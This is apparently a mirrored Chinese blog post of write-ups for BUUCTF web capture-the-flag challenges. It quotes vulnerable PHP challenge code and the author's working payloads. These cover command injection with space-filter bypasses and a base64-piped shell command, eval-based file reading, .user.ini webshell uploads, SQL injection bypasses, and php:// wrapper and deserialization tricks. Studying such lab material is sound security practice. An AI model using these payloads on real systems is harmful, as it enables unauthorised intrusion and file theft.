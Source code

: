 <!--yml
category: 未分类
date: 2022-04-26 14:33:40
-->

# BUUCTF-Web题解（一）_flying_bird2019的博客-CSDN博客_buuctfweb第一题

> 来源：[https://blog.csdn.net/flying_bird2019/article/details/111249695](https://blog.csdn.net/flying_bird2019/article/details/111249695)

# ping ping ping

参考其他wp:
[链接](https://www.jianshu.com/p/8739f603672a)

执行系统命令
先输入：?ip=127.0.0.1;ls
输出： flag.php index.php

?ip=127.0.0.1;cat flag.php
fxck your space!
过滤了空格
空格可以用

${IFS}

$IFS$1 //$加其他数字都可以

<

<>

{cat,flag.php}

%09
代替

?ip=127.0.0.1;cat,flag.php

fxck your flag!
flag被过滤
读一下index.php

```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?> 
```

根据网上得题解
可以使用如下payload：

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

还有一种（windoxs不行，但是本地的kali可以）

/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

# Easy Calc

查看源代码，找到一个calc.php

```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

？num=3;phpinfo()
![在这里插入图片描述](img/f8f49c05f8d35f5927f26cb989243fe3.png)
可以看到被静止的命令执行函数
这里可以发现scandir()、file_get_contenes、show_source、include函数没有禁止
因此找到flag文件
? num=3;var_dump(scandir(chr(47)))
![在这里插入图片描述](img/02ec0a0fbd1fb4dbf3e2a946d93485b5.png)

num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
![在这里插入图片描述](img/aa9f65119e2c37d10e443990789b5aa3.png)

# PHP

![在这里插入图片描述](img/35cb70d33d33afec74315fdb59fbb97b.png)

# upload

[文件上传漏洞总结](https://blog.csdn.net/weixin_34088838/article/details/94607178)
![在这里插入图片描述](img/5c7543c6c907c09bef99c756d5307b27.png)
![在这里插入图片描述](img/3a1cfb3d8f6ab688f1952ad94aad0bee.png)
菜刀连接

# BabySQL（报错注入）

select and where 等被过滤，复写绕过即可，如：seselectlect
flag不在当前的数据库里
因此先要查数据库名
然后再查表名，列名
字符串大于32位，需要substr函数
最终
![在这里插入图片描述](img/9e3265f0ee8cd9b2b7f0458e3e9236b6.png)

# CheckIn

这道题给了源码

```
<?php

  $userdir = "uploads/" . md5($_SERVER["REMOTE_ADDR"]);
  if (!file_exists($userdir)) {
  mkdir($userdir, 0777, true);
  }
  file_put_contents($userdir . "/index.php", "");
  if (isset($_POST["upload"])) {
  $tmp_name = $_FILES["fileUpload"]["tmp_name"];
  $name = $_FILES["fileUpload"]["name"];
  if (!$tmp_name) {
  die("filesize too big!");
  }
  if (!$name) {
  die("filename cannot be empty!");
  }
  $extension = substr($name, strrpos($name, ".") + 1);
  if (preg_match("/ph|htacess/i", $extension)) {
  die("illegal suffix!");
  }
  if (mb_strpos(file_get_contents($tmp_name), "<?") !== FALSE) {
  die("&lt;? in contents!");
  }
  $image_type = exif_imagetype($tmp_name);
  if (!$image_type) {
  die("exif_imagetype:not image!");
  }
  $upload_file_path = $userdir . "/" . $name;
  move_uploaded_file($tmp_name, $upload_file_path);
  echo "Your dir " . $userdir. ' <br>';
  echo 'Your files : <br>';
  var_dump(scandir($userdir));
  } 
```

分析源码，上传文件过滤了ph/htacess文件
这里需要用到另一个上传配置文件.user.ini
[.user.ini文件原理](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
总而言之，就是可以在以上文件中配置，使得目录下的其他php文件能包含你上传的图片马
上传shell.jpg
![在这里插入图片描述](img/5d82c3ef0fd396fb8c27c417581ea30c.png)
上传.user.ini

![在这里插入图片描述](img/d11761819386c43552432076c4baf70d.png)
菜刀连接

# EasyMD5

sql语句在返回的包里
![在这里插入图片描述](img/5e6bbac31deea3680bbc2f193d39b9f1.png)
这里可以进行sql注入
当一个值的md5值的十六字符二进制形式为’or’+不为0的数字+任意值
可进行sql注入

这里找一个特殊值：ffifdyop

![在这里插入图片描述](img/e509c135e270778ce1fe858339285220.png)
passwprd=’'or’6’永远为真，可以绕过
接下来两关均可用数组绕过

# NiZhuanSiWei

主要考php伪协议

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

有三个绕过，前两个用伪协议，最后一个反序列化
第一个用data://或者php://input写入的数据为welcome to the zjctf
data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
第二个读取useless.php源代码
php://filter/read=convert.base64-encode/resource=useless.php
第三个基础的反序列化
O:4:“Flag”:1:{s:4:“file”;s:8:“flag.php”;}
[php伪协议应用](https://www.cnblogs.com/zzjdbk/p/13030717.html)
![在这里插入图片描述](img/a77ba06776a0f8a0ad8e590b38760f88.png)
该图片出自以上博客